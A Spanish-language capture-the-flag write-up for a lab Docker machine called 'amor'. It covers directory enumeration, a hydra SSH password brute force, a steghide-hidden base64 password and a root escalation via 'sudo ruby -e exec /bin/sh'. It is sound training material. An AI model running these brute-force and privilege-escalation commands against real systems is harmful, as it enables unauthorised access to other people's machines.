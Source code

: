 ```yaml
---
Maquina: amor
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

![[Pasted image 20241023192623.png]]

Apreciamos que hay una página web y un servicio de SSH, vamos primero a explorar el portal web a ver que nos ofrece.

2. **Explaración web**: 

![[Pasted image 20241023193103.png]]

Ya de primeras en uno de los mensajes apreciamos el nombre de "juan" destacado como que fue despedido (ya tenemos un posible nombre de usuario) y lo firma una tal "carlota" (otro posible vector para fuerza bruta).

![[Pasted image 20241023200530.png]]

Por si acaso le vamos a pasar un gobuster, a ver si detecta algo

```bash 
gobuster dir -u http://172.17.0.2 -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x .php,.py,.js,.txt
```

Por desgracia la información que nos da es muy escasa, tan solo un recurso al que no podemos acceder.

![[Pasted image 20241023193317.png]]

3. **Fuerza bruta**: 

Toca pasar a la fuerza bruta...

```bash 
hydra -l carlota -P /home/alejandro/wordlists/rockyou.txt ssh://172.17.0.2
```

Y sorpresita...

![[Pasted image 20241023193936.png]]

y ¿podremos entrar?

![[Pasted image 20241023194042.png]]

Ya lo creo que si.

4. **Explorar los archivos de Carlota**: 

Muy bien ahora vamos a ver si podemos conseguir un vector de escala de privs. Primero vamos a lo básico, que permisos sudo tenemos?

```bash 
sudo -l
```

![[Pasted image 20241023194144.png]]

No iba a ser tan sencillo... Pero si que vamos a hacer un pequeño upgrade de shell, porque esta es horrible

```bash 
SHELL=/bin/bash script -q /dev/null
```

Vamos a inspeccionar el usuario de Carlota a ver que podemos encontrar...

![[Pasted image 20241023194914.png]]

5. **Analizar la fotografía**: 

Tras indagar un poco podemos observar una fotito... nos la vamos a pasar a nuestro ordenador y la vamos a analizar correctamente.

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg ./
```

![[Pasted image 20241023195203.png]]

Que foto más bonita!! Felicidades Carlota!! Ahora vamos a ver si guardas cositas en esta foto ;)

```bash
steghide info imagen.jpg
```

![[Pasted image 20241023195336.png]]

Ayayay Carlotita has sido muy traviesa y te hemos pillado con las manos en la masa... Vamos a ver que ocultas.

```bash
steghide extract -sf imagen.jpg
```

![[Pasted image 20241023195528.png]]

Nos encontramos que Carlota ha ocultado el código -> ZXNsYWNhc2FkZXBpbnlwb24=. Parece cifrado en base64 y si lo desciframos obtenemos lo siguiente -> eslacasadepinypon. 

```bash
echo ZXNsYWNhc2FkZXBpbnlwb24= | base64 -d
```

6. **Acceso al usuario de Oscar**: 

Esto tiene mucha pinta de ser una contraseña, podría ser de juan o será del otro usuario que había en la máquina? un tal oscar?

![[Pasted image 20241023195801.png]]

En mis tiempos diríamos "Carlota está por Oscar!!" a modo de burla. Gracias Carlota :P.

7. **Escalar privs**: 

Vamos a ver si tu amiguito Oscar tiene más privs.

![[Pasted image 20241023200003.png]]

Carlota yo que tú me quejaba, como es posible que tu marido tenga estos permisos y tú no... esto no puede ser...

Bueno vamos a gtfobins y nos pegamos el comandito estrella, en este caso será el siguiente:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Y colorín colorado, esta historia de amor se ha acabado ;)

![[Pasted image 20241023200158.png]]